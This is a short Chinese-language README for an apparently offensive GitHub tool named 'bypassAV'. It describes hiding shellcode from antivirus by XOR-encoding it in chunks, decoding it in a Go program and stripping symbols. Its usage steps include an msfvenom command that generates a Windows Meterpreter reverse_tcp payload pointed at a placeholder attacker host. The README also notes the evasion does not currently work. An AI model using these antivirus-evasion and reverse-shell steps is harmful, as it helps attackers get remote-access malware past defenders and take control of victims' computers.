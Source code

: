 # bypassAV
## 简介
* ~~v1.0:破产版免杀，大致思路是将shellcode异或，之后在主程序中解码。关键是清除一些符号信息，采用boy-hack大佬的go-strip~~(6天)
* ~~v1.1:1.0的异或改为分块异或（详见代码）~~(8小时) （加`-H=windowsgui` 的hello world似乎也会被杀）
* todo
## 使用方法
msf或者cs生成c#格式的shellcode，粘贴到xor.py的buf当中

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -f csharp
$ python3 xor.py
```

## 免杀效果
暂时gg
# Reference 
https://github.com/boy-hack/go-strip